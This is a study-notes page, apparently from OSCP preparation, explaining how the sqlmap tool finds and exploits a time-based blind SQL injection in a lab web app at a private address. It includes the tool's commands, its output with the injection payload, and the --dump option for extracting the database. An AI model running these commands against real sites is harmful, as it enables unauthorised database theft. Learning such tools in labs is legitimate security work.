 
# sqlmap
[`sqlmap`](https://sqlmap.org/) is a command line tool that automates [SQLi](../injection/SQLi.md).
## Basic Usage
```bash
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

...
[*] starting @ 02:14:54 PM /2022-05-16/

[14:14:54] [INFO] resuming back-end DBMS 'mysql'
[14:14:54] [INFO] testing connection to the target URL
got a 302 redirect to 'http://192.168.50.16:80/login1.php?msg=2'. Do you want to follow? [Y/n]
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=fbf1f5fa5fc...a7266cba36'). Do you want to use those [Y/n]
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=1' AND (SELECT 1582 FROM (SELECT(SLEEP(5)))dTzB) AND 'hiPB'='hiPB
---
[14:14:57] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP, PHP 7.3.33, Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12
[14:14:57] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.50.16'

[*] ending @ 02:14:57 PM /2022-05-16/
```
- `-u` is the target url
- `-p` is the parameter we want to test, in this case `user` (make sure to include the parameter in the url as well, and set its value to a dummy value -- `1` right now)
The output tells us that the parameter seems to be vulnerable to a *[Time Based SQLi](../../../../OSCP/web-apps/SQLi/SQLi.md#Time%20Based%20SQLi)* and then gives us more information for fingerprinting the server.
### Dumping the database
> [!Warning]
> `sqlmap` is loud as hell, and should not be used when you are trying to be evasive or sneaky!

We can also use `sqlmap` to dump the vulnerable database by giving it the `--dump` flag. This tells `sqlmap` to *exploit* the time-based SQLi it discovered. Since it's a time-based attack, it will likely take a while to dump all of the info in the database.
```bash
kali@kali:~$ sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump
...

[*] starting @ 02:23:49 PM /2022-05-16/

[14:23:49] [INFO] resuming back-end DBMS 'mysql'
[14:23:49] [INFO] testing connection to the target URL
got a 302 redirect to 'http://192.168.50.16:80/login1.php?msg=2'. Do you want to follow? [Y/n]
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=b7c9c962b85...c6c7205dd1'). Do you want to use those [Y/n]
sqlmap resumed the following injection point(s) from stored session:
```